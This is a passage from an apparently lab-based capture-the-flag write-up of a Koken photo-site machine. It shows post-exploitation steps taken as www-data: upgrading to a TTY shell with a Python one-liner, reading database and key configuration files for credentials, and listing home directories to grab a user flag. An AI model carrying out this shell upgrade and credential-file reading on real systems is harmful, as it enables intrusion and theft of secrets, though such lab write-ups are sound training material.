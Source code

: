 I then upgraded to a proper TTY shell for better interaction:

```shellscript
python -c "import pty;pty.spawn('/bin/bash')"
```

### Initial Enumeration as `www-data`

I navigated to the Koken configuration directory to find database credentials:

```shellscript
www-data@photographer:/var/www/html/koken/storage/originals/47/1c$ cd /var/www/html/koken/storage/configuration
www-data@photographer:/var/www/html/koken/storage/configuration$ cat database.php
```

**Database credentials found:**

```php
<?php
        return array(
                'hostname' => 'localhost',
                'database' => 'koken',
                'username' => 'kokenuser',
                'password' => 'user_password_here',
                'prefix' => 'koken_',
                'socket' => ''
        );
```

The password was `user_password_here`. This could be useful for database access, but wasn't directly needed for privilege escalation in this path.

I also checked `key.php` in the same directory:

```shellscript
www-data@photographer:/var/www/html/koken/storage/configuration$ cat key.php
```

This file contained a key: `fb3ab2ea3b3ad12c42c064d680826832`.

I then explored the `/home` directory to find user accounts:

```shellscript
www-data@photographer:/var/www/html/koken/storage/configuration$ cd /home
www-data@photographer:/home$ ls
agi  daisa  lost+found
```

I found `agi` and `daisa`. I checked `daisa`'s home directory:

```shellscript
www-data@photographer:/home$ cd daisa
www-data@photographer:/home/daisa$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos  examples.desktop  user.txt
www-data@photographer:/home/daisa$ cat user.txt
d41d8cd98f00b204e9800998ecf8427e
```
